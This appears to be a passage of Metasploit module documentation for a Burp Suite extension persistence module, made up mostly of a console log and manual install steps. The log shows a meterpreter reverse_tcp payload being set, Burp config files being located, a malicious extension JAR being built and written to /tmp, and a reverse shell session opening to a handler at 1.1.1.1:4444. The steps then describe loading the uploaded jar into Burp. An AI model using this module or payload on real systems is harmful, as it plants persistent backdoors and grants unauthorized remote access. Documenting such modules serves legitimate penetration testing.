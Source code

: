 ```
payload => cmd/unix/python/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:1) exploit(multi/local/burp_extension_persistence) > exploit
[*] Exploit running as background job 3.
[*] Exploit completed, but no session was created.
[msf](Jobs:1 Agents:1) exploit(multi/local/burp_extension_persistence) > 
[*] Started reverse TCP handler on 1.1.1.1:4444 
[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_registry_check_key_exists, stdapi_registry_create_key, stdapi_registry_delete_key, stdapi_registry_enum_key_direct, stdapi_registry_enum_value_direct, stdapi_registry_load_key, stdapi_registry_open_key, stdapi_registry_query_value_direct, stdapi_registry_set_value_direct, stdapi_registry_unload_key, stdapi_sys_config_getprivs
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Gradle found
[*] Found config file: /root/.java/.userPrefs/burp/prefs.xml
[*] Found config file: /root/.java/.userPrefs/burp/community/prefs.xml
[*] Config mentioned in settings, but not found: /tmp/burp.json
[!] The service is running, but could not be validated. No config file listed, only writing plugin to disk
[*] Using extension name: 0jPrAJt
[*] Creating JAR file
[*] Building Burp extension jar file in /tmp/d20250121-7883-zppnzb
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
openjdk version "17.0.14-ea" 2025-01-21
OpenJDK Runtime Environment (build 17.0.14-ea+6-Debian-1)
OpenJDK 64-Bit Server VM (build 17.0.14-ea+6-Debian-1, mixed mode, sharing)
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Starting a Gradle Daemon (subsequent builds will be faster)

BUILD SUCCESSFUL in 2s
4 actionable tasks: 3 executed, 1 up-to-date
[*] Writing malcious extension to disk: /tmp//0jPrAJt.jar
[+] Extension enabled, waiting for Burp to open with the config.
[*] Sending stage (24772 bytes) to 1.1.1.1
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 1.1.1.1:36144) at 2025-01-21 14:40:02 -0500
```

Burp Extension Install

1. Open burp
2. Click Next for a Temporary project in memory
3. Click Start Burp
4. Select the Extensions tab
5. Click Add
6. Click Select file under Extension details, and pick the jar file which was uploaded to the target
7. Click Next

#### Burp via Precompiled and User Settings

Export user settings:

1. From the main GUI click Settings
2. Click the 3 dots in the top right corner
3. Select User settings > Save user settings
4. save the file. No extension is needed, it will be `json`
